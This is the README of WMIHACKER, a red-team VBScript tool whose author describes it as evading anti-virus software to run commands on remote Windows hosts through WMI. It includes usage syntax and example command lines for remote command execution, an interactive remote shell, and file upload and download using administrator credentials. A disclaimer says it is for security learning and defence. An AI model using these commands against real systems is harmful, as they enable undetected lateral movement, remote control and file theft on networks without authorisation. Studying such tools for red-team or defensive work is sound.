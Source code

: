 # WMIHACKER
[中文版(Chinese version)](README_zh.md)

> Disclaimer: The technology involved in this project is only for security learning and  defense purposes, illegal use is prohibited!


Bypass anti-virus software lateral movement command execution test tool

Introduction: The common WMIEXEC, PSEXEC tool execution command is to create a service or call Win32_Process.create, these methods have been intercepted by Anti-virus software 100%, thus we created WMIHACKER (Bypass anti-virus software lateral movement command execution test tool).

Main functions: 1. Command execution; 2. File upload; 3. File download

## How to use
```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

The result is displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

No results are displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

shell mode

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

File upload: copy the local calc.exe to the remote host c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

File download: Download the remote host calc.exe to the local c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `
